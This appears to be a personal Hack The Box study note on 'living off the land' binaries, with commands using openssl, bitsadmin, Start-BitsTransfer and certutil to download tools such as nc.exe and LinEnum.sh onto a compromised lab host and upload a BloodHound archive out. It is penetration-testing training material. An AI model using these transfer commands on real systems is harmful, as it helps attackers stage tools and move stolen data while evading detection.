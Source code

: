 ```yaml
---
title:  "LOLBins"
tags:
  - hacking
  - hacking/htb
programming-languagues:
created: 2022-07-11
---
```

Aka Living off the land binaries, which are binaries that an attacker can use to perform actions beyond their original purpose.

Two websites on this:
- LOLBAS Project for **Windows** Binaries ([here](https://lolbas-project.github.io/#))
- GTFOBins for **Linux** Binaries ([here](https://gtfobins.github.io/))

They can be used to perform actions like:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

## GTFOBins
We can search for the download and upload function using `+file download` and `+file upload`:

We can use **openssl**. We first need to create a certificate and start a server.

### Create Certificate in Pwnbox
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

### Stand up the Server in our Pwnbox
```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Now to download the file from the compromised machine.

### Download File from the Compromised Machine
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Lol Tools
### Bitsadmin Download function
The Background Intelligent Transfer Service ([BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)) can be used to download files from HTTP sites and SMB shares.

#### File download with bitsadmin
```powershell
PS bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

#### Download
```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Upload
```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override-ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Certutil
A defacto to `wget`. The Antimalware Scan Interface (AMSI) detects this as malicious Certutil usage:

```bash
cerutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```